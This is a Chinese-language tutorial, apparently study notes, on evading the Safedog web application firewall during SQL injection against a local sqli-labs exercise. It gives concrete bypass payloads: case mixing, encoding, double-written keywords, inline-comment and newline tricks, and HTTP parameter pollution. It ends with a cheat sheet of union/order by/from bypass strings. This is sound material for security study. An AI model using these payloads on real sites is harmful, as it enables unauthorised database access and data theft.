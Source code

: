 # SQL注入之WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1647683310000/eaf7c52124254ea59a9cba144ae61b53.png)

本环境需要安装安全狗以及火狐游览器+hackbar插件以便更改提交请求。

# 更改提交方式绕过

注意要使得post提交方式成功，后端首先必须支持接受post请求的数据，因此在php后端可以自己手动改为$_REQUEST既可接受get也可以接受post数据。

由于安全狗会对and进行敏感字屏蔽,如果更改为post请求，则有机会可以绕过

get请求会被安全狗拦截

![image-20240718103128208](5.1SQL注入之WAF绕过/image-20240718103128208.png)	

更改为post请求

![image-20240718103036401](5.1SQL注入之WAF绕过/image-20240718103036401.png)	

# 关键词大小写绕过

```
    有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用这一点来进行绕过

    举例： union select ---> unIOn SeLEcT
```

# 编码绕过

```
    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23
```

# 双写绕过

```
    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd
```

```
http://localhost/sqli-labs-php7-master/Less-2/?id=-1 UNIunionON SELselectECT 1,2,3--+
```

曾经版本的waf可以绕过，新版本的安全狗无法绕过了。

![image-20240718105822556](5.1SQL注入之WAF绕过/image-20240718105822556.png)	

# 换行(\N)绕过

一般可以配合内联注释实现绕过

```
    举例：select * from admin where username = \N union select 1,user() from admin
```

# 注释符内联注释绕过：

```

    /*!union*/ select
    注意:内联注释符里感叹号后面的内容会被mysql执行。
```

安全狗不允许post请求去查看数据库名

![image-20240718103652027](5.1SQL注入之WAF绕过/image-20240718103652027.png)	

于是通过内联注释绕过

​	![image-20240718103921001](5.1SQL注入之WAF绕过/image-20240718103921001.png)

由于安全狗版本过高，普通的内联已经无法绕过waf了。

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1 /*!union*/ select 1,2,3--+
```

![image-20240718104251225](5.1SQL注入之WAF绕过/image-20240718104251225.png)	

必须使用复杂的内联才能绕waf,通过先注释于此同时又换行，从而使得骗过安全狗，把敏感字段注释了，实则换行后还可以继续执行。

```
注意:%0a在url中就是换行
http://localhost/sqli-labs-php7-master/Less-2/?id=-1 union /*!--+/*%0aselect/*!1,database(),3*/ --+
或者
下面这个用于混淆waf，其实与上一个url等价。
http://localhost/sqli-labs-php7-master/Less-2/?id=-1 union/*//--*/ /*!--+/*%0aselect/*!1,database(),3*/ --+
```

![image-20240718104906525](5.1SQL注入之WAF绕过/image-20240718104906525.png)	

# 同义词替换

```
    and=&&

    or=||

    =(等于号)=<、>

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格
```

# HTTP参污染

```
    对目标发送多个参数，如果目标没有对参数进行多次过滤，那么WAF对多个参数只会识别其中的一个。
    对于php+apache的场景下，只会识别last的参数。
```

比如给id传递多个参数，最后接收的是id=3.

![image-20240718112521658](5.1SQL注入之WAF绕过/image-20240718112521658.png)	

由于php多参数是接受最后一个参数,所以id最后第二个，但是被waf检测到了，所以被拦截。

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1/*&id=-1 union select 1,2,3*/
```

![image-20240718113740305](5.1SQL注入之WAF绕过/image-20240718113740305.png)	

### `WAF绕过的思路就是让WAF的检测规则，识别不到你所输入的敏感字符，利用上述所介绍的知识点，灵活结合各种方法，从而可以增加绕过WAF的可能性`

```
order by绕过：%20/*//--/*/  V4.0
联合绕过：union /*!--+/*%0aselect/*!1,2,3*/ --+
from绕过： /*!06447%23%0afrom*/
  
```

order by绕过sql注入语句

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1  order/*//--/*/ by 1
```

![image-20240718110756787](5.1SQL注入之WAF绕过/image-20240718110756787.png)	



